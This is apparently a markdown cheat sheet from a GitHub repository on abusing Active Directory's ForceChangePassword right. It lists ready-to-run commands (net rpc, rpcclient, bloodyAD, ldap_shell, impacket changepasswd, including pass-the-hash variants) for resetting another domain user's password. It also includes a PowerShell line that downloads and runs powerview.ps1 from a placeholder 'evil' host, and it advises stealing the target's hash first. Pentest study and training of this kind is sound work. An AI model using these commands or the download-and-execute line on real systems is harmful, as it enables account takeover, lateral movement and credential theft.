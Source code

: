 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

Using SMB protocol.
 - In case LDAP is not an option you can still abuse ForceChangePassword over SMB protocol using impacket tools:

`changepasswd.py <domain>/<target_user>@<ip> -newpass <new_password> -altuser <domain>/<controlled_user> -altpass <controlled_user_password> -reset`

Note: use 'impacket-changepasswd' for kali, and 'changepasswd.py' from normal UNIX/LINUX machines.

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

### From Windows (internally):

Load powerview -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`$NewPassword = ConvertTo-SecureString '<new_password>' -AsPlainText -Force`

`Set-DomainUserPassword -Identity '<target_user>' -AccountPassword $NewPassword`



### Articles:

https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/
https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
